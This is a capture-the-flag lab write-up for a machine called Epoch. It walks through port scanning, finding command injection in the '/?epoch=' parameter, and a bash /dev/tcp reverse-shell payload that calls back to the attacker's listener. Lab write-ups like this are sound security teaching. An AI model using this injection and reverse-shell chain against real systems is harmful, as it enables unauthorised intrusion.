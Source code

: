 Target: 10.10.19.222 	Epoch

**Initial Access:**\
nmap -Pn  10.10.19.222  --min-rate=5000 -p-\
Output from nmap shows open ports 22,80

Enumerating open ports further with nmap:\
nmap -Pn 10.10.19.222  --min-rate=5000 -p 22,80 -sC -sV -oN nmap.epoch

![image](https://user-images.githubusercontent.com/93153300/198738065-a99e4244-85de-43b5-9bd4-e1f6ffc950d4.png)
 
Navigating to port 80 shows:

![image](https://user-images.githubusercontent.com/93153300/198738126-f1258038-61f3-4d1d-a76c-76cfa34f777e.png)
 
Let’s test the converter.  Put a random word in:

![image](https://user-images.githubusercontent.com/93153300/198738176-59b4db1d-70e0-473a-b704-a3aced5d3dd7.png)
 
We see in the url that we are taken to a directory /?epoch=\

Testing for command injection let’s try:   blob;id;
Found command injection, the command id ran:

![image](https://user-images.githubusercontent.com/93153300/198738230-92e20d5b-4882-4560-9602-01fbfe92a571.png)
 
Let’s use this to get a reverse shell.  First, open a netcat listener: nc -lvnp 443 (I will use pwncat: pwncat-cs -lp 443).  Next, replace blob;id with: blob;bash -c 'bash -i >& /dev/tcp/10.2.1.148/443 0>&1'\
We got shell as challenge:

![image](https://user-images.githubusercontent.com/93153300/198738276-4a3062e7-51c9-466a-8fec-41b536fc5314.png)
_____________________________________________________________
Upon checking environment variables we find the flag:

![image](https://user-images.githubusercontent.com/93153300/198738301-c47df8d5-9797-453f-82ff-b3984c3b6021.png)
 

This machine only had one flag, and was not made for privilege escalation to get root.

